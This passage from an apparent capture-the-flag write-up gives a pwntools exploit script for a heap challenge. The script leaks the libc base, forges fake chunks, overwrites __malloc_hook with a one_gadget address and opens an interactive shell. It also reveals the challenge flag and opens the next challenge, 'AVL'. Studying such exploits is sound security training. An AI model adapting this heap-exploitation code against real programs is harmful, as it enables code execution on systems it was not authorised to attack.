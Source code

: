 ```python
print(hex(len(payload)))
p.sendlineafter(b"meme:", payload)

p.sendlineafter(b"length of meme:", str(0x10).encode())
payload = flat(
    0x0, 0x41,
)
print(hex(len(payload)))
p.sendlineafter(b"meme:", payload)

p.sendlineafter(b"length of meme:", str(0x0).encode())
p.sendlineafter(b"length of meme:", str(0x0).encode())

p.recvuntil(b"Enter meme: ")
libc_base = u64(p.recvline().strip().ljust(8, b"\x00")) - 0x1ecbe0
print(hex(libc_base))

p.sendlineafter(b"length of meme:", str(0x10).encode())
payload = flat(
    0x0, 0x61
)
p.sendlineafter(b"meme:", payload)

p.sendlineafter(b"length of meme:", str(0x10).encode())
payload = flat(
    libc_base + libc.sym.__malloc_hook, 0x61
)
p.sendlineafter(b"meme:", payload)

p.sendlineafter(b"length of meme:", str(0x30).encode())
payload = flat(
    0x0, 0x61
)
p.sendlineafter(b"meme:", payload)

one_gadget = [
    0xe3afe, 0xe3b01, 0xe3b04
]
p.sendlineafter(b"length of meme:", str(0x30).encode())
payload = flat(
    libc_base + one_gadget[1]
)
p.sendlineafter(b"meme:", payload)

p.interactive() # grey{f4k3_chunk_17_71l_y0u_m4k3_17}
```

# AVL

> After the success of my heap allocator, I decided to help the NUSmods team out with a super fast data structure
>
> Author: jro \
> Solves: 0
